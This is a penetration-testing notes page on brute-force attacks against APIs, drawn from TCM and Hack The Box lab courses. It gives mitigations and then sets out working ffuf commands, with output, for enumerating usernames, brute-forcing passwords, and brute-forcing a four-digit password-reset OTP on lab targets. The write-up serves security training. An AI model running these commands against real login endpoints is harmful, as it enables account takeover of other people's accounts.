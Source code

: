 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# BFAs

{% hint style="info" %}
A Brute Force Attack (BFA) involves systematically trying all possible combinations of credentials (e.g., passwords) or encryption keys until the correct one is found.
{% endhint %}

{% hint style="danger" %}
This can lead to unauthorized access to accounts or systems if strong security measures are not in place, as attackers can eventually guess or discover the correct credential.
{% endhint %}

{% hint style="success" %}
Implement account lockout mechanisms after a number of failed attempts, use multi-factor authentication (MFA), enforce strong password policies, and apply rate limiting or CAPTCHA to prevent rapid, repeated login attempts.
{% endhint %}

## Passwords

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

We might be able to enumerate valid usernames via verbose error messages (Figure 1).

<figure><img src="../../../../../.gitbook/assets/bfa_1.png" alt=""><figcaption><p>Figure 1: Enumerating a valid username based on verbose error messages.</p></figcaption></figure>

When a valid username is obtained, we can try brute-forcing its password using Burp's Intruder (Figure 2) or CLI tools, such as [`ffuf`](broken-reference).

<figure><img src="../../../../../.gitbook/assets/bfa_2.png" alt=""><figcaption><p>Figure 2: Brute-forcing <code>admin</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing admin's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/rockyou:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"admin","password":"PASS"}' -c -fc 401
```
{% endcode %}

Based on the above verbose error message (`Invalid password`) we can try to enumerate more valid users (Figure 3), and if other users are found, we can repeat the above process to enumerate their passwords (Figure 4).

<figure><img src="../../../../../.gitbook/assets/bfa_3.png" alt=""><figcaption><p>Figure 3: Fuzzing for other valid users based on the verbose error message.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Fuzzing for other valid users based on the verbose error message.
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:USER -X POST -H 'Content-Type: application/json' -d '{
"email":"USER","password":"admin"}' -c -mr "Invalid password!"

________________________________________________
jeremy                  [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 0ms]
admin                   [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 265ms]
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/bfa_4.png" alt=""><figcaption><p>Figure 4: Fuzzing <code>jeremy</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing jeremy's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"jeremy","password":"PASS"}' -c -mc 200
```
{% endcode %}

## OTPs

> _The below example is based on HTB's_ [_API Attacks_](https://academy.hackthebox.com/course/preview/api-attacks) _module._

If the password policy is robust enough, we can check if the password reset functionality is vulnerable to BFAs due to weak One Time Passcodes (OTPs) (Figure 5).

<figure><img src="../../../../../.gitbook/assets/api_bfa_token_1.png" alt=""><figcaption><p>Figure 5: Getting the required information for brute-forcing the OTP</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing the OTP
$ ffuf -u http://94.237.59.199:45348/api/v1/authentication/customers/passwords/resets -X POST -H 'Content-Type: application/json' -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt:FUZZ -d '{"Email": "MasonJenkins@ymail.com","OTP": "FUZZ","NewPassword": "123456"}' -ac -c -fr ":false" -t 100

0426                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 40ms]
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/api_bfa_token_2.png" alt=""><figcaption><p>Figure 6: Successfully logging in.</p></figcaption></figure>
